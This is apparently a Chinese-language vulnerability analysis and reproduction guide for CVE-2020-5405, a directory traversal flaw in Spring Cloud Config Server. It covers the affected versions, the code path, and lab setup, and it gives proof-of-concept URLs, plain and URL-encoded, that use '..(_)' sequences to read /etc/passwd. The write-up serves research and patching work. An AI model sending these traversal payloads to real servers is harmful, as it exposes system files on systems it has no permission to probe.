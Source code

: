 （CVE-2020-5405）Spring Cloud Config Server 目录穿越漏洞
========================================================

一、漏洞简介
------------

Spring Cloud
Config为分布式系统的外部配置提供客户端的服务端的支持。使用了它，开发人员就可以在一个中心仓库管理应用程序在所有环境中的外部配置。2020-02-26
Spring 收到漏洞报告, Spring Cloud Config Server 存在目录穿越漏洞。

二、漏洞影响
------------

Spring Cloud Config Server 2.2.0-2.2.1

Spring Cloud Config Server 2.1.0-2.1.6

三、复现过程
------------

### 漏洞分析

其实往前看有个替换的操作,很显眼

![](resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId25.png)

name和label的`(_)`会被替换成`/`,看到这里,我尝试构造poc

    http://www.0-sec.org:8888/aaaa/aaaa/%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%65%74%63/passwd

我们让label为`..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)etc`,path为`passwd`,这样拼接完应该是`file:/xxx/xxx/xxx/../../../../../etc/passwd`

但是如果label不为master的话,代码逻辑就会先去checkout,然后就异常了

这里面会导致抛出异常,具体抛出异常的点在哪呢,在`org.springframework.cloud.config.server.environment.MultipleJGitEnvironmentRepository`

![](resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId26.png)

在CVE-2019-3799中,我们使用的配置是常用的`spring.cloud.config.server.git.uri`,它会选择使用`MultipleJGitEnvironmentRepository.class`的getLocations,然后就会走到checkout,抛出异常了,那么我们怎么去不走checkout逻辑呢。

通过翻文档[https://zq99299.github.io/note-book/spring-cloud-tutorial/config/002.html\#%E7%89%88%E6%9C%AC%E6%8E%A7%E5%88%B6%E5%90%8E%E7%AB%AF%E6%96%87%E4%BB%B6%E7%B3%BB%E7%BB%9F](https://zq99299.github.io/note-book/spring-cloud-tutorial/config/002.html#版本控制后端文件系统)

得知这个配置是让它从本地进行加载,而不是用git,通过在application.properties配置

    spring.profiles.active=native
    spring.cloud.config.server.native.search-locations=file:/Users/p0desta/Desktop

其实通过补丁我们也可以发现端倪

![](resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId28.png)

配置后重新跟进调试

![](resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId29.png)

然后就在`/org/springframework/cloud/config/server/environment/NativeEnvironmentRepository.class@getLocations`中对路径进行了处理,大致就是对路径进行拼接,然后存在ouput数组中,返回一个新的Locations对象

![](resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId30.png)

然后后面就是跟CVE-2019-3799一样,直接读文件了。

### 漏洞复现

下载官方Spring Cloud
Config，具体版本`versions 2.1.5.RELEASE`，下载地址为：

    https://github.com/spring-cloud/spring-cloud-config/archive/v2.1.5.RELEASE.zip

导入IDEA项目

![1.png](resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId32.png)

修改配置文件`src/main/resources/configserver.yml`

    info:
      component: Config Server
    spring:
      application:
        name: configserver
      autoconfigure.exclude: org.springframework.boot.autoconfigure.jdbc.DataSourceAutoConfiguration
      jmx:
        default_domain: cloud.config.server
      profiles:
        active: native
      cloud:
        config:
          server:
            native:
              search-locations:
                - file:///Users/rai4over/Desktop/spring-cloud-config-2.1.5/config-repo

    server:
      port: 8888
    management:
      context_path: /admin

设置`profiles-active`为`native`，设置`search-locations`为任意文件夹。

主文件入口位置为`org.springframework.cloud.config.server.ConfigServerApplication`，运行`spring-cloud-config-server`模块，环境开启成功运行在`127.0.0.1:8888`。

### POC

    https://www.0-sec.org:8888/1/1/..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)etc/passwd

URL编码变形

    https://www.0-sec.org:8888/1/1/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29etc/passwd

返回结果

![2.png](resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId34.png)

参考链接
--------

> http://p0desta.com/2020/04/16/spring-cloud-config%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/\#CVE-2020-5405%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90
>
> https://xz.aliyun.com/t/8303
